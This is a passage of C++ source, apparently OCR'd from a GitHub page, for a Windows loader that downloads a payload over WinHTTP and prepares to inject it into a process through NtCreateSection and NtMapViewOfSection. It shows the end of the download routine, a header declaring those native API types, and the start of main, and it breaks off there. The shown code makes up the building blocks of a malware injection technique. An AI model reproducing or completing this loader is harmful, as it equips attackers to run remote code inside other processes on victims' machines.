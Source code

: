 ```
    // close all the handles
    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);

    return buffer;
}
```


C++ header file for NtMapViewOfSection named Native.h

```
#pragma once
#include <Windows.h>
#include <winternl.h>

using NtCreateSection = NTSTATUS(NTAPI*)(
	OUT PHANDLE SectionHandle,
	IN ULONG DesiredAccess,
	IN OPTIONAL POBJECT_ATTRIBUTES ObjectAttributes,
	IN OPTIONAL PLARGE_INTEGER MaximumSize,
	IN ULONG PageAttributess,
	IN ULONG SectionAttributes,
	IN OPTIONAL HANDLE FileHandle);

using NtMapViewOfSection = NTSTATUS(NTAPI*)(
	IN HANDLE SectionHandle,
	IN HANDLE ProcessHandle,
	IN OUT PVOID* BaseAddress,
	IN ULONG_PTR ZeroBits,
	IN SIZE_T CommitSize,
	IN OUT OPTIONAL PLARGE_INTEGER SectionOffset,
	IN OUT PSIZE_T ViewSize,
	IN DWORD InheritDisposition,
	IN ULONG AllocationType,
	IN ULONG Win32Protect);

using NtUnmapViewOfSection = NTSTATUS(NTAPI*)(
	IN HANDLE ProcessHandle,
	IN PVOID BaseAddress OPTIONAL);

typedef enum _SECTION_INHERIT : DWORD {
	ViewShare = 1,
	ViewUnmap = 2
} SECTION_INHERIT, * PSECTION_INHERIT;
```

C++ Code for NTMapViewOfSection:

```
#include <Windows.h>
#include <winhttp.h>
#include <iostream>
#include <vector>
#include <conio.h>
#include "Native.h"

#pragma comment(lib, "winhttp.lib")

std::vector<BYTE> Download(LPCWSTR baseAddress, LPCWSTR filename);

int main()
{
    // create startup info struct
    LPSTARTUPINFOW startup_info = new STARTUPINFOW();
```
